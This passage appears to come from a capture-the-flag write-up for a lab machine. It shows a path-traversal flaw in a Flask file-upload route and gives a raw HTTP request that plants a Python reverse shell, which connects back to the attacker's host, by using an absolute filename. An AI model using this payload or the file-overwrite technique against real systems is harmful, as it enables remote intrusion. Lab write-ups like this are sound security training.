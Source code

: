 ```python
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

### Rewriting views.py

It might be easy to overlook but there is a vulnerability here that can be exploited within the upload_file function. [Hacktricks of course has more info on it.](https://book.hacktricks.xyz/pentesting-web/file-inclusion#python-root-element) By using os.path.join within python it allows me to define an absolute path and overwrite the directories defined beforehand, meaning I can write to any file given it exists within / respective to the webapp (probably /var/www/public).

I first try a shell to see if it is in fact that easy.

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------49310446973920412135007932
Content-Length: 247
Origin: http://10.10.11.164
DNT: 1
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------49310446973920412135007932
Content-Disposition: form-data; name="file"; filename="/shell.py"
Content-Type: application/octet-stream

import socket,os,pty;s=socket.socket();s.connect((os.getenv("10.10.14.4"),int(os.getenv("7777"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")

-----------------------------49310446973920412135007932--
```


{% include img_link src="/img/opensource/opensource_upload_error" alt="shell upload fail" ext="png" trunc=300 %}

That is a gnarly error. I decided to turn to what I do know about the box. We can write to any file, meaning I can define my own routes, meaning I can make my own route to code execution. I use ChatGPT here to define me a generic html template to render and a new route of /raccoon. Below are the parts that need to be added to views.py.
